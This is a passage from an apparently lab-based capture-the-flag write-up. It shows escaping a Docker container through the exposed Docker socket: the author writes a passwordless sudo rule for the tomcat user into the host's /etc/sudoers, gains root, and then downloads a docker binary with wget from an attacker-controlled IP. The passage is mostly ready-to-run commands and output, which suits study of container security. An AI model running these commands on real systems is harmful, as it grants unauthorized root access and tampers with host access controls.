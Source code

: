     # Members of the admin group may gain root privileges
    %admin ALL=(ALL) ALL
    
    # Allow members of group sudo to execute any command
    %sudo   ALL=(ALL:ALL) ALL
    
    # See sudoers(5) for more information on "#include" directives:
    
    #includedir /etc/sudoers.d
    

I’ll add a line to the end with the command:

    
    
    echo "tomcat ALL=(ALL) NOPASSWD:ALL" >> /rootfs/etc/sudoers
    

In the one-liner:

    
    
    root@2d24bf61767c:~# id=$(curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "echo \"tomcat ALL=(ALL) NOPASSWD:ALL\" >> /rootfs/etc/sudoers"], "Tty": true}' http://localhost/containers/create | cut -d'"' -f4); curl --unix-socket /var/run/docker.sock -s -X POST -H "Content-Type: application/json" http://localhost
    /containers/${id}/start; curl -s --unix-socket /var/run/docker.sock "http://localhost/containers/${id}/logs?stderr=1&stdout=1"
    

Once I run that, back at a tomcat shell, I can `sudo su`:

    
    
    tomcat@VirusBucket:/dev/shm$ sudo su
    root@VirusBucket:/dev/shm#
    

## Beyond Root

### docker Binary

After solving, I later learned I could have just skipped the API all together
and used the `docker` binary. It’s not in the container, but there is a copy
[here](https://master.dockerproject.org/linux/x86_64/docker). I’ll download it
to my box, and then use a Python webserver to upload it to the container.

    
    
    root@2d24bf61767c:~# wget 10.10.14.15/docker
    --2020-09-03 02:01:06--  http://10.10.14.15/docker
    Connecting to 10.10.14.15:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 53959101 (51M) [application/octet-stream]
    Saving to: ‘docker’
    